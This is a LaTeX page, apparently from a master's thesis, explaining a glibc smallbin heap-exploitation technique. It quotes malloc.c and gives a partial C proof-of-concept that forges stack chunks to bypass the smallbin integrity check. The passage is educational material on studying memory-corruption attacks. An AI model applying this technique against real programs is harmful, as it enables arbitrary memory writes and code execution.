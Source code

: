\documentclass{masterthesis}
\newcommand*\sbs{small bins}
\newcommand*\mallocc{\lstinline{malloc}}
\begin{document}
This attack abuses the vulnerability inside \sbs{} to modify memory in any location. If we check the \mallocc{} source code, we can see there is a check for small chunk request, so, if the requested chunk fits inside the \sbs{} range, the heap manager use it.

\begin{lstlisting}[language=c,frame=tlrb]
if (in_smallbin_range (nb))
\end{lstlisting}

In the following we have below code. \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3635}{\texttt{malloc.c}, line 3635}}

\begin{lstlisting}[language=c,frame=tlrb]
bck = victim->bk;
if (__glibc_unlikely(bck->fd != victim)) {
	 errstr = "malloc(): smallbin double linked list corrupted";
	 goto errout;
}
set_inuse_bit_at_offset(victim, nb);
bck->fd = bin;
\end{lstlisting}

AS you can see if we have control over the victim bck pointer and bypass the security check, libc return our fake chunk on the next smallbin allocation. in other words, we can return a chunk to any address. now we explain it in a real sample:

\begin{lstlisting}[language=c,frame=tlrb]
 intptr_t* stack_buffer_1[4] = {0};
 intptr_t* stack_buffer_2[3] = {0};
 intptr_t *victim = malloc(0x100);
 intptr_t *victim_chunk = victim-2;
\end{lstlisting}

At first, we allocate a small chunk, then calculate the actual address of the chunk by subtracting header size from the data section address like always.

\begin{lstlisting}[language=c,frame=tlrb]
 stack_buffer_1[0] = 0;
 stack_buffer_1[1] = 0;
 stack_buffer_1[2] = victim_chunk;

 stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
 stack_buffer_2[2] = (intptr_t*)stack_buffer_1;
\end{lstlisting}
Now we forge a fake chunk, point the \lstinline{bck} pointer of \lstinline{buffer_1} to the victim, the fwd pointer of \lstinline{buffer_1} to \lstinline{buffer_2}, also, the bck pointer of \lstinline{buffer_2} to \lstinline{buffer_1}. In this way, we can bypass the \sbs{} security check.
\begin{lstlisting}[language=c,frame=tlrb]
void *p5 = malloc(1000);
free((void*)victim);
void *p2 = malloc(1200);
\end{lstlisting}
\end{document}
